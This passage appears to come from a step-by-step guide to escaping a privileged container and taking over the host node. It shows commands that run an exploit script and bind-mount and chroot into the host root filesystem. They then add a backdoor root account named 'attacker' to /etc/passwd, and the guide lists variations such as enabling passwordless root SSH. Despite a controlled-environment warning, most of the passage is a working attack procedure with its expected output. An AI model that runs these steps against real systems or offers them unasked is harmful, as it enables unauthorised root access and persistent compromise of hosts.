 **Step 7: Execute the script**

```bash
./exploit.sh
```

*   **Explanation:** This executes the previously created script.
*   **Expected Output:** If the vulnerability exists this should mount without an error. If the exploit does not work the same error as before will be displayed.
*   **Why:** This step runs the attack to gain escalated privileges.

If the steps have been successful this indicates that the vulnerability exists, it can now be exploited further.

### Phase 2: Exploitation - Elevating Privileges and Potential Impact

**Step 8:  Escalate Privileges**

If the above steps prove that the mount command works, the following is possible:

```bash
mkdir /host/evil
mount --bind / /host/evil
chroot /host/evil
```

*   **Explanation:** This sequence binds the root filesystem of the host to a directory within the container, effectively creating a chroot environment where the container has access to the host's files.
*   **Expected Output:** No output if the commands are successful.
*   **Why:** This escalates privileges by providing access to the host filesystem.

**Step 9: Gain Control of the Node**

```bash
echo "attacker:x:0:0:Attacker:/root:/bin/bash" >> /etc/passwd
```

*   **Explanation:**  This command adds a new user "attacker" with UID 0 (root) to the `/etc/passwd` file of the host operating system (due to the chroot in the previous step).  This is a highly destructive step as it modifies the host's user database.
*   **Expected Output:**  No output if the command is successful.
*   **Why:** This adds a backdoor account to the host, giving the attacker persistent access.

***WARNING: The above steps can severely damage the host operating system. Perform these steps in a controlled environment only!***

### Potential Variations and Alternative Approaches

*   **Alternative Exploitation Method:** Instead of directly modifying `/etc/passwd`, an attacker could modify SSH configuration files to allow passwordless root login.
*   **Using Other Privileged System Calls:**  Instead of `mount`, other system calls that require capabilities could be used to exploit the vulnerability. Examples include `setuid`, `setgid`, `chown`.
*   **Exploiting Race Conditions:** In some cases, a race condition might be exploitable where a process attempts a privileged operation before the capability drop takes effect.
